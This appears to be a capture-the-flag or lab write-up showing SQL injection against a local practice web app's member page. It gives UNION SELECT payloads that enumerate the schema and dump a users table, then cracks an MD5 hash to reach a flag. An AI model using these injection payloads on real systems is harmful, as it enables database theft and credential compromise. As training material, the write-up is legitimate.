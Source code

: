# Members

## Testing

If we go to `http://192.168.56.102/index.php?page=member` we can try to do an
SQL injection such as `;` in the input which will give us a error with a mention to MariaDB.

## Exploit

We can now try to search for a list of tables and columns in the database with the input
`1 UNION SELECT table_name, column_name FROM information_schema.COLUMNS`.
We can then observe a definition of a table named `users` wich contains column like
`Commentaire` and `countersign`. If we query those two values with 
`1 UNION SELECT Commentaire, countersign FROM users` we can get the values
```
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

## Decrypt

We can assume that the countersign is an md5 hash wich will give us the value
`FortyTwo`, then lowered `fortytwo`, and then finally sha256 executed on it
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```
